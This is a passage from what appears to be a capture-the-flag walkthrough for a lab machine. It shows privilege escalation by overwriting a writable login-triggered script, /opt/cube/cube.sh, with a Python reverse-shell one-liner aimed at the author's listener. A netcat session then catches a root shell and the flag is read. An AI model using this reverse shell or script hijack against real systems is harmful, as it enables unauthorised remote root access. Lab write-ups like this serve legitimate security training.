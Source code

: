 ```

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#       # Fall back to using the very slow lsb_release utility
#       DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```
It could be interesting to modify this script. First, I check if the user `baksteen` has write permission on the file. Then, I modify the `/opt/cube/cube.sh` file in order to insert a `python` reverse shell to my machine on the `9494` port :
```
baksteen@fowsniff:~$ ls -la /opt/cube/cube.sh
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
baksteen@fowsniff:~$ echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.8.75.8\",9494));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > /opt/cube/cube.sh
```

I run a netcat listener on port `9494` :
```
└─# nc -lvnp 9494  
listening on [any] 9494 ...
```

I disconnect and reconnect in SSH and I receive a root shell on the listening port `9494` :
```
└─# nc -lvnp 9494
listening on [any] 9494 ...
connect to [10.8.75.8] from (UNKNOWN) [10.10.221.146] 38652
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

So I am root of the machine and I can finally get the flag contained in the `/root` directory :

```
# cd /root   
# ls -la
total 28
drwx------  4 root root 4096 Mar  9  2018 .
drwxr-xr-x 22 root root 4096 Mar  9  2018 ..
-rw-r--r--  1 root root 3117 Mar  9  2018 .bashrc
drwxr-xr-x  2 root root 4096 Mar  9  2018 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  5 root root 4096 Mar  9  2018 Maildir
-rw-r--r--  1 root root  582 Mar  9  2018 flag.txt
# cat flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
```